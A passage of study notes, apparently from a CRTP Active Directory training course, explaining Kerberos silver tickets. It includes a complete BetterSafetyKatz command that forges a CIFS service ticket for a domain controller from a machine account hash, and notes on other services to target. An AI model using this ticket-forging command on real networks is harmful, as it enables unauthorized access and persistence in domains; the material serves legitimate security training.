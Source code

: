 ![Alt text](/assets/images/posts/crtp/10.png){: .align-center}



- A valid TGS (Golden ticket is TGT)
- Encrypted and Signed by the hash of the service account 

> remember: Golden ticket is signed by hash of krbtgt

- Services rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only to the services themselves
- Reasonable persistence period (default 30 days for computer accounts)

**Using hash of the Domain Controller computer account, below command provides access to file system on the DC**:
```powershell C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

**Similar command can be used for any other service on a machine**:

> Which services? HOST, RPCSS, HTTP, WSMA and many more.

